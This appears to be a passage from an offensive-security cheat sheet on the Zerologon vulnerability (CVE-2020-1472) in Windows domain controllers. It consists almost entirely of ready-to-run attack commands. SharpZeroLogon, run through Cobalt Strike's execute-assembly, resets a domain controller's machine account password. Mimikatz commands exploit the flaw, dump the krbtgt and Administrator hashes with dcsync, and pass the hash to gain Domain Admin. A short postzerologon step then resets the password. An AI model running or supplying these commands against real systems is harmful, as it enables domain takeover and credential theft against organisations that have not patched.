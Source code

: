 - `nccfsas` \- .NET binary for Cobalt Strike's execute-assembly
    
    ```powershell
    git clone https://github.com/nccgroup/nccfsas
    # Check
    execute-assembly SharpZeroLogon.exe win-dc01.vulncorp.local
    
    # Resetting the machine account password
    execute-assembly SharpZeroLogon.exe win-dc01.vulncorp.local -reset
    
    # Testing from a non Domain-joined machine
    execute-assembly SharpZeroLogon.exe win-dc01.vulncorp.local -patch
    
    # Now reset the password back
    ```
    
- `Mimikatz` \- 2.2.0 20200917 Post-Zerologon
    
    ```powershell
    privilege::debug
    # Check for the CVE
    lsadump::zerologon /target:DC01.LAB.LOCAL /account:DC01$
    
    # Exploit the CVE and set the computer account's password to ""
    lsadump::zerologon /target:DC01.LAB.LOCAL /account:DC01$ /exploit
    
    # Execute dcsync to extract some hashes
    lsadump::dcsync /domain:LAB.LOCAL /dc:DC01.LAB.LOCAL /user:krbtgt /authuser:DC01$ /authdomain:LAB /authpassword:"" /authntlm
    lsadump::dcsync /domain:LAB.LOCAL /dc:DC01.LAB.LOCAL /user:Administrator /authuser:DC01$ /authdomain:LAB /authpassword:"" /authntlm
    
    # Pass The Hash with the extracted Domain Admin hash
    sekurlsa::pth /user:Administrator /domain:LAB /rc4:HASH_NTLM_ADMIN
    
    # Use IP address instead of FQDN to force NTLM with Windows APIs 
    # Reset password to Waza1234/Waza1234/Waza1234/
    # https://github.com/gentilkiwi/mimikatz/blob/6191b5a8ea40bbd856942cbc1e48a86c3c505dd3/mimikatz/modules/kuhl_m_lsadump.c#L2584
    lsadump::postzerologon /target:10.10.10.10 /account:DC01$
    ```
    